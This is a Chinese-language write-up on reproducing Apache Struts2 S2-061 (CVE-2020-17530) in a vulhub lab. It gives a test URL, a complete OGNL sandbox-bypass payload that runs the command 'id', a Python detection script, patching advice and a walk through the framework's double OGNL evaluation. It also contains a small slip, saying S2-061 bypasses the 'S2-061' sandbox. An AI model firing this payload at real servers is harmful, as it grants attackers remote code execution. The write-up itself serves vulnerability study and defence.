

# Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）复现与利用

## 漏洞概述

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。

CVE-2020-17530是对CVE-2019-0230的绕过，Struts2官方对CVE-2019-0230的修复方式是加强OGNL表达式沙盒，而CVE-2020-17530绕过了该沙盒。在特定的环境下，远程攻击者通过构造恶意的OGNL表达式，可造成任意代码执行。

## 影响版本

Struts 2.0.0 – Struts 2.5.25

## 漏洞复现

### 环境搭建

此处使用了vulhub里面的环境。



### 漏洞测试

- 检验漏洞是否存在

```
url:8080/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d
```


可以在响应包中发现执行了 2021+20的命令2041.

- 执行系统命令id

```
url:8080/?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27id%27}).(%23res%3d%23exec.exec(%23cmd))}
```


## 漏洞检测poc

```
# structs.py

import requests

def scan(target_url):
    try:
        headers = {
            'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Mobile Safari/537.36'
        }
        vul_url = target_url + '/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d'
        response = requests.get(vul_url, headers=headers, timeout=10)
        if '2041' in response.text:
            return True
        else:
            return False
    except Exception as e:
        print('[-] 发生错误:', e)
        return False

```

可以使用以下工具来检测漏洞是否存在:https://github.com/hypnoticp/Python_script


## 应急与修复建议

- 将Apache Struts框架升级至最新版本
- 排查docker log日志，web访问日志，struts2框架日志

## 漏洞原理

Struts在某些情况下可能存在OGNL表达式注入注入漏洞，如果开发人员使用了%{…}语法，进行强制的OGNL解析，某些特殊的TAG属性可能被双重解析，攻击者可以通过构造恶意的OGNL表达式来利用此漏洞，最终造成远程代码执行。

### 分析

S2-059是Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，导致命令注入。S2-061则是对S2-061的沙盒的绕过,原理一样.

tag标签存在二次解析，说明存在漏洞，那我们可以找到structs2标签解析的入口，也是·本次debug的入口。


该漏洞发生在输入的参数被传入到某些标签的id属性中,在传递的过程中struts2进行了如图的两次OGNL解析.导致了命令执行. 我们知道Struts2中的标签解析由org.apache.struts2.views.jsp.ComponentTagSupport的doStartTag方法开始的,所以这两次解析就发生在该方法中. 以下分析使用的payload=%{3*5}.


#### 第一次解析

第一次解析出现在this.populateParams()方法中. 该方法中调用了两次父类的populateParams()方法.在后一次的populateParams()方法中调用了uiBean.setId(this.id);,id为jsp中a标签内的值(%id).


该方法内部调用findString()方法.


接着又调用findValue()方法,这里省略一部分方法,调用栈如下,一步步跟进发现最终调用OgnlTextParser.evaluate方法.该方法中将%{}解析%{3*5}

#### 第二次解析

第二次解析出现在this.component.start(this.pageContext.getOut());中.跟进该方法.


发现调用父类的start方法.继续跟进:


现一个evaluateParams方法,翻译过来评估参数.猜想会对参数做某些操作.跟进它:


内部执行populateComponentHtmlId(form);方法.继续跟进:


发现里面调用findStringIfAltSyntax方法.从名称可以判断出如果开启AltSyntax.则调用findValue.跟进看看:


果不其然,我们就找到了该漏洞的另一个条件(除了版本外),必须开启AltSyntax.struts2文档对于AltSyntax说明如下:

```
The altSyntax is an option that can be defined in struts.xml. By default it is set to true and it is strongly recommend you do not change that unless you are upgrading from WebWork 2.1.7 or previous versions.
```

从官方文档中可以看到该AltSyntax设置是默认开启,所以执行findString方法,走的流程就和第一次一样,对id的值再一次OGNL解析.